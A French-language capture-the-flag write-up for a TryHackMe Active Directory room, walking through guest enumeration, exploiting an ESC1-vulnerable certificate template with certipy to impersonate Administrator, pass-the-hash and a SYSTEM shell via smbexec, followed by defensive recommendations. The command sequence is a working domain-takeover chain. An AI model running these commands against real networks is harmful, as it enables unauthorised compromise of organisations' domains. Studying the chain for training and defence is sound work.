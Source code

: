 
# TryHackMe - Ledger – Write-up Complet (FR)

https://tryhackme.com/room/ledger

---

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`)  
pour obtenir une exécution de commande en tant qu’administrateur de domaine via SMB et NTLM hash.

---

## 🔍 1. Scan et découverte

### Scan nmap

---

### Ajout dans `/etc/hosts` :

```
IPCIBLE labyrinth.thm.local thm.local LABYRINTH
```

- Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.

---

### Test guest :

```bash
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
```

On récupère 2 utilisateurs avec le même mot de passe.

---

### Connexion avec un utilisateur valide :

```bash
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
```

Connexion avec Remmina (RDP).  
Récupération du flag `user.txt`.

---

## 🧩 2. Credential reuse via NTLM hash

### Active Directory Certificate Services (AD CS)

À l'aide de certipy, nous trouvons un modèle de certificat appelé `ServerAuth` vulnérable à ESC1.

---

### ESC1 (Enterprise Security Control 1)

* Technique d’attaque contre AD CS.  
* Permet à un utilisateur de s’auto-délivrer un certificat d’authentification valide pour n’importe quel utilisateur, même un Domain Admin !

---

### Découverte de la vulnérabilité avec certipy :

```bash
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
```

* Droits d'inscription : `THM.LOCAL\Authenticated Users` peut s'inscrire, ce qui permet de demander le certificat.  
* Authentification client EKU : certificat utilisable pour l’authentification auprès d’Active Directory.  
* **EnrolleeSuppliesSubject** : vulnérabilité principale, permet de spécifier le sujet du certificat, donc d'usurper n'importe quel compte.

---

### Demande du certificat en se faisant passer pour l'administrateur :

```bash
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
-ca thm-LABYRINTH-CA -target labyrinth.thm.local \
-template ServerAuth -upn Administrator@thm.local
```

---

### Authentification avec le certificat généré :

```bash
certipy-ad auth -pfx administrator.pfx
```

Un hash NTLM est fourni ou découvert :  
`:07d677XXXXXXXXXXXXX322`

---

### Test du hash avec CrackMapExec :

```bash
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXXXXX322 --kdcHost labyrinth.thm.local
```

✔️ Accès confirmé : utilisateur Administrator avec un hash fonctionnel → Pass-the-Hash.

---

## 🚀 3. Exploitation finale

```bash
smbexec -k -hashes :07d677XXXXXXXX52322 THM.LOCAL/Administrator@labyrinth.thm.local
```

✔️ Shell SYSTEM via SMB !  
Obtention de `root.txt`.

---

## 🛡️ 4. Bonnes pratiques défensives (Blue Team)

| Problème exploité                                    | Contremesure recommandée                                              |
| ---------------------------------------------------- | --------------------------------------------------------------------- |
| Hash NTLM réutilisable (Pass-the-Hash)               | - Activer LAPS (Local Admin Password Solution)                        |
|                                                      | - Désactiver SMBv1                                                    |
|                                                      | - Kerberos only                                                       |
| Pas de segmentation réseau                           | Isoler les DC, segmenter le réseau AD.                                |
| Aucun journal d’échec (4625)                         | Auditer les logs de sécurité Windows.                                 |
| Pas de détection post-exploitation                   | SIEM avec alertes sur smbexec, psexec, wmiexec                        |
| Accès Admin avec mot de passe connu ou hash statique | Rotation régulière des mots de passe et monitoring des connexions SMB |

---

## ✅ En résumé

* L’accès initial est facilité par un compte avec mot de passe faible.  
* La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.  
* La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.  
* Une exécution de commande à distance est réalisée via SMBExec.

---

## 🧠 Outils utilisés

* nxc (NetExec)  
* certipy  
* crackmapexec  
* smbexec.py

---

## 📌 À retenir pour la défense

* 🎯 Surveillez les modèles de certificats.  
* 🎯 Ne laissez pas les utilisateurs choisir leurs propres sujets.  
* 🎯 Sécurisez SMB et éliminez NTLM si possible.  
* 🎯 Déployez la journalisation et les alertes ADCS.
